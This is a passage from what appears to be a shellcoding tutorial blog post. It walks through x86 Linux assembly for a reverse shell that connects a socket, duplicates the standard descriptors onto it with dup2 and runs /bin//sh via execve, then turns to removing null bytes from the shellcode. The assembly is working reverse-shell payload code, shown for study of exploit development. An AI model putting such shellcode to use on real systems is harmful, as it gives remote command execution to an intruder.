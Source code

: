 	mov ecx, esp
	mov dl, 0x10 ; sizeof(struct sockaddr_in)
	xor eax, eax
	mov ax, 0x16a
	int 0x80 

	test eax, eax ; check if eax is zero
	jnz exit_on_error
		

	; Duplicating descriptor 0, 1, 2 to the socket opened by client
	;
	; int dup2(int oldfd, int newfd);
	; 
	; dup2 is defined as #define __NR_dup2 63 in /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor ecx, ecx
	mov cl,  2
	xor eax, eax

dup2:
	mov al, 0x3F	; 63 in decimal
	int 0x80	; duplicating file descriptors in backwards order; from 2 to 0
	dec ecx 
	jns dup2

	; Executing shell
	; 
	; int execve(const char *filename, char *const argv[], char *const envp[]);
	; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor eax, eax
	push eax	; The NULL byte
	push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
	push 0x6e69622f ; "nib/"
	mov ebx, esp	; EBX now points to "/bin//sh"
	
	xor ecx, ecx
	xor edx, edx
	mov al, 0xB	; 11 in decimal
	int 0x80

exit_on_error:
	mov bl, 0x1	
	xor eax, eax	; zero-ing EAX
	mov al, 0x1
	int 0x80

{%endhighlight%}

After having our reverse shell spawned, we're happy but everything changes when
we notice null bytes in the shellcode. When we store "127.0.0.1" we introduce
NULLs.

![There are null bytes in the shellcode]({{ "/assets/images/null_byte_in_working_shellcode.png" | absolute_url }})
